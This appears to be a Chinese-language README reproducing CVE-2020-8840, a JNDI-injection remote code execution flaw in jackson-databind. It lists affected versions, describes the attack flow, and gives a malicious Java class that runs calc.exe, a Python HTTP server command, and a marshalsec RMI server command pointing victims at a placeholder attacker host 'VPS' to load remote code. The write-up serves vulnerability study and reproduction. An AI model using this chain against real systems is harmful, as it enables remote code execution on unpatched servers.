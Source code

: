 #  CVE-2020-8840

## 概述 

jackson-databind 是隶属 FasterXML 项目组下的JSON处理库。

受影响版本的jackson-databind中由于缺少某些xbean-reflect/JNDI黑名单类，如org.apache.xbean.propertyeditor.JndiConverter，可导致攻击者使用JNDI注入的方式实现远程代码执行。

![](1.png)

## 影响版本

2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2

FasterXML jackson-databind  < 2.9.9.2

FasterXML jackson-databind  < 2.10.0

FasterXML jackson-databind  < 2.7.9.6

FasterXML jackson-databind  < 2.8.11.4

使用ldap和rmi配合JNDI注入对对jdk版本有一定的要求。

![](jndi-repair.jpg)


## 复现

与之前fastjson类似。

**漏洞利用链**：

**靶机-> RMI/LDAP 服务器 -> 恶意类HTTP服务器**

![](2.png)

![](3.png)

<br/>

#### 流量行为：

1.攻击者向靶机发送精心构造的poc

2.靶机接收到poc，假设靶机存在漏洞(未对class黑名单校验的靶机)，会向攻击者搭建的恶意RMI/LDAP服务器发送请求

3.调用远程恶意HTTP服务器上编译的恶意类资源，在靶机上执行任意命令(可能是在内存加载，未落地)

<br/>

在vps上，将编译好的恶意类TouchFile.class放在任意目录。 **根据靶机环境调整恶意类内容**

恶意类：

	import java.lang.Runtime;
	import java.lang.Process;
	
	public class TouchFile {
	    static {
	        try {
	            String[] commands={"calc.exe"};
	            Runtime.getRuntime().exec(commands);
	            
	        } catch (Exception e) {
	            // do nothing
	        }
	    }
	}

**恶意类最好用低版本jdk编译，据说1.6效果最佳,我用1.8编译的恶意类未加载成功，用1.7成功了,也可能跟我靶机java环境有关，我靶机的环境是jdk1.7**

在当前目录启动一个HTTP服务承载 恶意类，使恶意类可以被RMI/LDAP服务器访问。

	python -m SimpleHTTPServer 8000

启动 RMI 服务器

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:8000/#TouchFile 1099


向靶机发送 json 调用 恶意RMI
![](res.png)


## fastjson 影响

在开启autotype的情况下,据说可以 bypass fastjson 1.2.62

[参考资料](https://mp.weixin.qq.com/s?__biz=MzU3NzMxNDgwMA==&mid=2247483994&idx=2&sn=3b6a861978e7461c8d30c55488742aa3&chksm=fd07c8c5ca7041d3309a9ffa4828b10cc138654472692d6e24fc41d372bad22c20c63f47f8f2&mpshare=1&scene=1&srcid=&sharer_sharetime=1582525134374&sharer_shareid=0bc656b40f7ceaf4f41b618b9b3d6cd8#rd)

## 后记

如果想查看jar包源码，可以使用java反编译工具 jd-gui.exe ，

如果双击打不开可能是jdk版本过高，用命令行打开即可。
